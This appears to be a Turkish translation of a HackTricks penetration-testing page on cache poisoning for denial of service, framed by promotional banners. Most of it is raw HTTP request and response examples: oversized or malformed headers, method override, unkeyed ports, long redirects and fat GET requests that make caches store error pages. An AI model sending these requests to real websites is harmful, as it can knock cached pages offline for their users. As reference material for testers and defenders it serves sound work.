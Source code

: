 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
Bu sayfada, **önbellek sunucuları için geçerli olan** isteklere **web sunucusunun hatalarla yanıt vermesini** sağlamak için denemek üzere farklı varyasyonlar bulabilirsiniz.
{% endhint %}

* **HTTP Header Oversize (HHO)**

Web sunucusunun desteklediğinden daha büyük ama önbellek sunucusunun desteklediğinden daha küçük bir başlık boyutuyla bir istek gönderin. Web sunucusu, önbelleğe alınabilecek bir 400 yanıtı ile yanıt verecektir:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Karakteri (HMC) & Beklenmeyen Değerler**

Zararlı **meta karakterler** içeren bir başlık gönderin, örneğin  ve . Saldırının çalışması için önce önbelleği aşmalısınız.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
Kötü yapılandırılmış bir başlık sadece `\:` olarak bir başlık olabilir.

Bu, beklenmeyen değerler gönderildiğinde de çalışabilir, örneğin beklenmeyen Content-Type: gibi.
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Anahtarsız başlık**

Bazı web siteleri, _X-Amz-Website-Location-Redirect: someThing_ başlığı gibi istekteki belirli başlıkları **gördüklerinde** bir hata durum kodu döndürecektir:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Yöntem Aşımı Saldırısı (HMO)**

Eğer sunucu `X-HTTP-Method-Override`, `X-HTTP-Method` veya `X-Method-Override` gibi başlıklarla HTTP yöntemini değiştirmeyi destekliyorsa, sunucu tarafından desteklenmeyen bir yöntemle geçerli bir sayfa talep etmek mümkündür, böylece kötü bir yanıt önbelleğe alınır:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Anahtarsız Port**

Eğer Host başlığındaki port, yanıtta yansıtılıyorsa ve önbellek anahtarına dahil edilmemişse, kullanılmayan bir porta yönlendirmek mümkündür:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Uzun Yönlendirme DoS**

Aşağıdaki örnekte olduğu gibi, x önbelleğe alınmıyor, bu nedenle bir saldırgan, yönlendirme yanıt davranışını kötüye kullanarak yönlendirmenin o kadar büyük bir URL göndermesini sağlayabilir ki bu bir hata döndürsün. Ardından, önbelleğe alınmamış x anahtarı olmadan URL'ye erişmeye çalışan kişiler hata yanıtı alacaklar:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Host başlığı büyük/küçük harf normalizasyonu**

Host başlığı büyük/küçük harf duyarsız olmalıdır ancak bazı web siteleri bunun küçük harfle yazılmasını bekler ve eğer değilse bir hata döner:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Yol normalizasyonu**

Bazı sayfalar, yolda veri URLencode gönderildiğinde hata kodları döndürecektir, ancak, önbellek sunucusu yolu URLdecode edecek ve yanıtı URLdecoded yol için saklayacaktır:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Bazı önbellek sunucuları, Cloudflare gibi, veya web sunucuları, gövdesi olan GET isteklerini durdurur, bu nedenle geçersiz bir yanıtı önbelleğe almak için kötüye kullanılabilir:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Referanslar

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
